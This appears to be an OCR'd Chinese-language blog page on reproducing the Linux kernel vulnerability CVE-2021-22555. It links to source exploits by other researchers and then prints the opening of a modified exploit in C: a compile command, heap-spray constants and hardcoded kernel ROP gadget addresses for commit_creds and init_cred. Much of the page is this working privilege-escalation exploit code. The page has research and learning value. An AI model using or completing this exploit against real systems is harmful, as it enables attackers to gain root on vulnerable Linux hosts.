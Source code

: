 【CVE.0x07】CVE-2021-22555 漏洞复现及简要分析 - arttnba3's blog  
  
https://arttnba3.cn/2022/04/01/CVE-0X07-CVE-2021-22555/#Final-EXPLOIT  
  
  
Linux Kernel KPTI保护绕过 - 安全客，安全资讯平台 (anquanke.com)  
### https://www.anquanke.com/post/id/240006  
###   
### (3)最终EXP  
  
  
主要是  
bsauce师傅的EXP（  
https://github.com/bsauce/kernel-exploit-factory  
）  
和  
arttnba3师傅的EXP（  
https://arttnba3.cn/2022/04/01/CVE-0X07-CVE-2021-22555/#Final-EXPLOIT  
）  
，然后改巴改巴，加了点东西，替换了一下ROP链条什么的。  
```
//compile exp: $ gcc -m32 -static -masm=intel -o exploit exploit.c
#define _GNU_SOURCE
#include <err.h>
#include <errno.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <net/if.h>
#include <netinet/in.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <linux/netfilter_ipv4/ip_tables.h>
 
// clang-format on
#define PAGE_SIZE 0x1000
#define PRIMARY_SIZE 0x1000
#define SECONDARY_SIZE 0x400
 
#define NUM_SOCKETS 4
#define NUM_SKBUFFS 128
#define NUM_PIPEFDS 256
#define NUM_MSQIDS 4096
 
#define HOLE_STEP 1024
 
#define MTYPE_PRIMARY 0x41
#define MTYPE_SECONDARY 0x42
#define MTYPE_FAKE 0x1337
 
#define MSG_TAG 0xAAAAAAAA
 
//Gadget
#define PUSH_RSI_JMP_RSI_0x2E 0xffffffff81b4e244
#define ADD_RSP_0x98_RET 0xffffffff81a7895e
#define POP_RSP_RET 0xffffffff81900644
#define POP_RDI_RET 0xffffffff81001629
#define INIT_CRED 0xffffffff8244c8a0
#define COMMIT_CREDS 0xffffffff8108e690
```